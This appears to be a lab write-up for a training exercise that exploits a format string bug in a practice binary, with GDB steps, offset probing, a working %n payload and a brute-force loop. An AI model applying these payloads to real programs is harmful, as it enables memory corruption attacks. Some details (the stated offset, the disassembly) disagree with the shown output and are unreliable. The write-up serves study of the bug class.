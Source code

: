 # ex08 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to modify the `target` variable and see the message "you have modified the target :)".

## Steps

### 1. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh

objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext

080496f4 g     O .bss   00000004              target
```

The address of the `target` variable is `0x080496f4`.

### 2. Analyze the Binary with GDB

We then use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh

gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
`break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh

disassemble vuln
```

Output:

```plaintext

Dump of assembler code for function vuln:
   0x08048470 <+0>:     push   %ebp
   0x08048471 <+1>:     mov    %esp,%ebp
   0x08048473 <+3>:     and    $0xfffffff0,%esp
   0x08048476 <+6>:     sub    $0x10,%esp
   0x08048479 <+9>:     call   0x804847d <vuln+13>
   0x0804847e <+14>:    leave
   0x0804847f <+15>:    ret
End of assembler dump.
```

### 3. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs:

```sh

python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext

AAAA  b7765500 bfa05354 b7745000 00000000 00000000 bfa05318 0804849d bfa05110 00000200 b7745c20 b7761328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830
target is 00000000 :(
```

From the output, we observed `41414141` at the 11th position, indicating our offset is 11.

### 4. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the `target` variable. Through a process of trial and error, we tried various payloads to find the correct value to write to the `target` variable. Initially, we tried smaller values and gradually increased them. This systematic approach helped us to avoid overflows and segmentation faults.

Here is the final payload that successfully modified the `target` variable:

```sh

python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%16930052x' + '%n'" | ./bin
```

Output:

```plaintext

b7772328
you have modified the target :)
```

### Trial and Error Process

1. **Initial Attempts**: We started with small values for the padding, such as:

```sh
    python -c "print '\xf4\x96\x04\x08' + '%x'*10 + '%100x' + '%n'" | ./bin
```

2. **Incremental Increases**: Gradually increased the padding value to see how it affected the `target` variable. We used a loop to automate this process:

```sh

    for i in $(seq 100000 100000 20000000); do
      payload=$(python3 -c "print('\xf4\x96\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "you have modified the target"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
```

3. **Final Value**: After several iterations, we found that the correct value to print `16930052` characters was effective in modifying the `target` variable.

![Succsess Flag](./images/image.png)


### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and modify the `target` variable. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to modify memory.

By following these steps and understanding the exploitation process, we successfully completed the level.
